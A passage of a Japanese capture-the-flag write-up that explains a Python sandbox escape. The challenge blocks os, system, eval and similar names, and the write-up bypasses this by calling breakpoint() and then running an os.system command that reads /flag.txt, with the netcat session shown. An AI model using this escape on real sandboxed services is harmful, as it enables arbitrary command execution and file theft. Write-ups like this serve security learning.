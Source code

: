 ```python
        else:
            return exec(normalized_code, {}, {})
    except Exception as e:
        return str(e)

if __name__ == "__main__":
    while True:
        user_code = input(">> ")
        if user_code.lower() == 'quit':
            break
        result = execute_code(user_code)
        print("Result:", result)
```

関数チェックや禁止文字チェック等をやっているみたいです。

```python
if node.func.id in ("os","system","eval","exec","input","open"):
```

特定の関数は使えないようですが、`breakpoint`は使えるようだったので、それを使ってflagを取得しました。

```sh
$ nc jail.ctf.intigriti.io 1337
>> breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) __import__("os").system("cat /flag.txt")
INTIGRITI{Br4ak_br4ak_Br34kp01nt_ftw}0
```

- FLAG

```text
INTIGRITI{Br4ak_br4ak_Br34kp01nt_ftw}
```

## Web

![web](./images/web.png)

### Bug Bank
